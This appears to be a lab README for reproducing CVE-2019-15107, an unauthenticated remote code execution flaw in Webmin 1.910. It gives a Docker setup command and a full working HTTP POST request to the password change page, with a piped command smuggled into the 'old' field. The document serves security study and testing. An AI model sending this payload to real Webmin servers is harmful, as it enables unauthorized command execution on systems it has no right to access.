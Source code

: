 # Webmin Unauthenticated Remote Code Execution（CVE-2019-15107）

[中文版本(Chinese version)](README.zh-cn.md)

Webmin is a web-based system configuration tool for Unix-like systems. The vulnerability exists in the password reset page, which allows unauthenticated users to execute arbitrary commands through a simple POST request.

Referers:

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## Start Vulnerability Application

Start a vulnerable Webmin 1.910 through following command:

```
docker-compose up -d
```

After the environment is started, you can see the login page of Webmin at `https://your-ip:10000`.

## Vulnerability Reproduce

The payload of the reference links is incorrect. After reading the code, I found that command can be executed only if the user parameter of the body doesn't exist. 

In short, sending a following POST request to execute command `id`:

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](1.png)
